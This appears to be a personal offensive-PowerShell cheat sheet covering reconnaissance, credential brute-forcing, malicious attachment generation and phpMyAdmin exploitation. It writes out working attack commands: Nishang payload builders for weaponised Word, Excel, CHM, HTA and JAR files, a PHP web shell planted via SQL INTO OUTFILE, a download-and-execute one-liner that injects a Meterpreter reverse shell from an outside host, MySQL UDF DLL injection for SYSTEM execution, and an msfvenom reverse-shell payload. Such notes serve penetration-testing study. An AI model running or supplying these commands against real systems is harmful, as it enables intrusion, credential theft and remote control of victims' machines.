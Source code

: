 # Offensive Powershell
---
# Navigation
- **[[#Reconnaissance]]**
	- [[#PortScanning Host discovery]]
	- [[#Directory bruteforce]]
	- [[#Shodan]]
	- [[#Automating Nmap]]
	- [[#Brute-Force]]
	- [[#MSSQL]]
- **[[#Client-Side attacks]]** 
	- [[#Malicious Attachments]]
- **[[#Exploitation]]**
	- [[#PHPMyAdmin]]
- **[[#Metasploit]]**

> **Note:**
>  To list the modules and parameters for a specific function in a module -> [[Powershell Basics#List module commands]]
---
# Reconnaissance
## PortScanning & Host discovery
```Powershell
#Powersploit module
Invoke-PortScan <Args> | Select-Object -ExpandProperty openports
#Posh-SecMod module
portscan <Args>
Invoke-ARPScan <Args>
Invoke-EnumSRVRecords <Args>
```
## Directory discovery
```powershell
#PowerSploit module
Get-HttpStatus <Args> | Where-Object {$_.Status -match "ok"}
```
## Shodan
```powershell
#Posh-Shodan module
Get-Command -module Posh-shodan
```
## Automating Nmap
```powershell
#Scandiff script
./scandiff.ps1 -frequency daily -basename nmap-output -targets 192.168.1.10-25,scanme.nmap.org
```
> **Scandiff**: https://github.com/hardwaterhacker/scandiff
## Brute-Force
**Nishang module:**
-  **Services:** FTP , Active Directory, MSSQL, Sharepoint.
```powershell
cat <PassFile> | Invoke-BruteForce -IP <IP> -UserName <Username>  -service ActiveDirectory
cat C:\test\servers.txt | Invoke-BruteForce -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose
```
- **Services:** WinRM
```powershell
Get-WinRMPassword -UserName Administrator -ComputerName victimserver -WordList c:\mywordlist.txt
```
>**Sources:**
> Script -> [WinRMPassword](https://poshsecurity.com/blog/2014/3/20/powershell-winrm-get-winrmpassword.html)
## MSSQL
```powershell
#Nishang
Execute-Commnand-MSSQL -ComputerName abuqasemPC -
WindowsAuthentication 
Execute-Commnand-MSSQL -ComputerName abuqasemPC -payload <Command>
```
> `WindowsAuthentication` is useful when our current powershell session have enough privileges to access remote DB but we don't have credentials.
---
# Client-Side attacks
## Malicious Attachments
1. **Microsoft-Word & Excel**
```powershell
#Nishang
Out-Word -Payload <Payload>
Out-Excel -Payload <Payload> -ExcelFileDir <Path\to\files.xls>
```
> `ExcelFileDir` Output a malicious excel file with the same name,attributes as the file pointed to.

2. **Shortcut & CHM** 
```powershell
#Nishang
#Payload starts with '-c' because the powershell command is already hardcoded in the script.
Out-Chm -Payload "-c <COMMANDS>" -HHCPath "C:\PATH\TO\HTML HELP Workshop"
Out-Shortcut -Payload <Payload>
```
> **Further reading:** https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e


3. **Phishing/Drive-by-download**
- **Out-HTA**: Generates HTML app. and VBS script.
- **Out-Java**: Generates a malicious jar file.
```powershell
Out-HTA -PayloadURL http:\\10.10.10.10.\Rev.ps1
Out-Java -Payload "-c <COMMAND>" -JDKPAth <PATH\TO/JDK> -NoSelfSign
```
>**Note:**
> Both Scripts generate two files.

---
# Exploitation
## PHPMyAdmin
- **Assumptions**
    - Username / Password of phpMyAdmin is known
    - Writable directories on the web server are known
### From phpMyAdmin access to SYSTEM privileges
1. Check OS
```txt
SHOW VARIABLES LIKE "%version%";
```
2. Create WebShell
 ```sql
SELECT '<?php echo shell_exec($_GET[\'e\']); ?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php'
#Then
http://newpc/phpmyadmin/config/shell.php?e=whoami
```
3. Get a Meterpreter
```powershell
#Powersploit module
http://newpc/phpmyadmin/config/shell.php?e=C:\Windows\Syswow64\Windowspowershell\v1.0\powershell.exe -c iex((New-Object Net.WebClient).DownloadString('http://192.168.254.1/Invoke-ShellCode.ps1'));Invoke-ShellCode -Payload windows/meterpreter/reverse_https -LHOST 192.168.254.226 -LPORT 8443 -Force
```
> `Invoke-ShellCode` Is useful when we don't have write access to any file,because it injects the code in memory without having to touch the disk.
## PHPMyAdmin 2
1. **Identify the  plugin directory**
```sql
SELECT @@plugin_dir
```
2. **Convert the  DLL  to bytes.**
 - [UDF DLL from sqlmap](https://github.com/sqlmapproject/sqlmap/tree/master/udf/mysql/windows)
```powershell
#Nishang
Convert-Dll -DllPath .\lib_mysqludf_sys.dll_ -OutputPath dll.txt
```
3. **Write to the plugin directory of the  server.**
```powershell
SELECT CHAR(77,90,144...) INTO OUTFILE 'C:\\Program Files\\MySQL\\MySQL Server 5.6\\lib\\plugin\\lib_mysqludf_ sys.dll' FIELDS ESCAPED BY ''
```
4. **Create a function**
```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll'
```
5. **Execute commands as  SYSTEM**
```sql
Select sys_eval('whoami')
```
---
# Metasploit
PowerShell payload formats
1. **psh**
2. **psh-cmd**
3. **psh-net**
4. **psh-reflection**
	- Very useful
	- Compilation happens in memory
	- No need of execute privileges on temp directory 
	- Use this often
- **Metasploit modules which use PowerShell**
	-  `exploit/windows/smb/psexec_psh`
        - Payload is never written to disk
	- `exploit/windows/local/powershell_cmd_upgrade`
		- Used to upgrade a  native cmd  to  meterpreter.
	- `post/windows/manage/powershell/exec_powershell`
		- Execute a .ps1 from local machine.

### Example
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 -f psh-reflection > ps.ps1
```
---
